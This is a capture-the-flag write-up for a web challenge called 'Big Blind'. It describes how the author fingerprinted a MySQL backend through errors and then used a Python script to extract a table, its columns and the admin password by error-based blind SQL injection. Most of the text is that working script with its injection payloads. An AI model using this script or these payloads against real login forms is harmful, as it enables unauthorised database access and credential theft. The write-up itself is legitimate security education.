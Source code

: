 # web/big blind

> From the title "Big Blind" I assumed this was some kind of Blind Injection, probably SQL, but I didn't want to assume anything. Sending a single `'` returned a 500 internal server error, backing up my theory that it was probably blind SQL injection.

> After trying a few different things, using the sleep function didn't return an error, but didn't seem to do anything.
I tried other waiting commands like `WAITFOR DELAY '0:0:10'`, `dbms_pipe.receive_message(('a'),10)`, and `pg_sleep(10)`, however, all of these returned errors. 
This meant that it was probably either SQLlite or MySQL.

> I then tested GLOB, a function that is in SQLlite but not MySQL, this returned an error, suggesting that it was MySQL. Because the database was MySQL, I knew that `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` would trigger an error if true, and put it into a python script to attempt to expose the database's contents.

> I used the script to determine the tablename (users) from `information_schema.tables`, then determined the column names 
(user, pass) from `information_schema.columns`, and then finally enumerated the username and password (admin, the flag)

> The script is here, I modified it to make it run for each different function, and in this form it is configured for 
enumerating the flag, which was the last time I used it(sorry if its a bit messy):


```
import requests
url = "https://big-blind.hsc.tf/"
payload = "user=ad'+'min&pass='+AND+IF(NOT+SUBSTRING((SELECT+TABLE_NAME+FROM+information_schema.tables+LIMIT+1),1,{})='{}',(SELECT+table_name+FROM+information_schema.tables),'a')#"
headers = {
  'Host': 'big-blind.hsc.tf',
  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0',
  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
  'Accept-Language': 'en-US,en;q=0.5',
  'Accept-Encoding': 'gzip, deflate',
  'Content-Type': 'application/x-www-form-urlencoded',
  'Content-Length': '166',
  'Origin': 'https://big-blind.hsc.tf',
  'Connection': 'close',
  'Referer': 'https://big-blind.hsc.tf/',
  'Upgrade-Insecure-Requests': '1'
}


lalph = list(map(chr, range(ord('a'), ord('z')+1)))
Ualph = list(map(chr, range(ord('A'), ord('Z')+1)))
nums = list(range(0,10))
blank = [""]
additionals = ["_","$","{","}"]
totalPos = blank+additionals+lalph+Ualph+nums
fullAlph = []
for val in totalPos:
    fullAlph.append(str(val))
end = False
thing = 0
dbNames= []
password = "flag"
maxi = 50
while thing < maxi:
    if(end==True):
        end=False
        print("Adding: "+password)
        dbNames+=[password]
        password=""
        
        thing+=1
    for Char in totalPos:
        Char = str(Char)
        reqH = payload
        payload = "user=ad'+'min&pass='+AND+IF(NOT+SUBSTRING((SELECT+pass+FROM+users+WHERE+user='admin'+LIMIT+1+OFFSET+{}),1,{})='{}',(SELECT+table_name+FROM+information_schema.tables),'a')#"
        reqH = reqH.format(thing,len(password)+1,password+Char)
        #print(reqH)
        response = requests.request("POST", url, headers=headers, data=reqH)
        #print(response)
        if("<html lang" in str(response.content)):
            if(Char == ""):
                end=True
                break
            else:
                print(password+Char+"=True")
                password+=Char
                break
        else:
            print(password+Char+"=False")
       
    


print("Database Names: ")
for name in dbNames:
    print(str(name))
```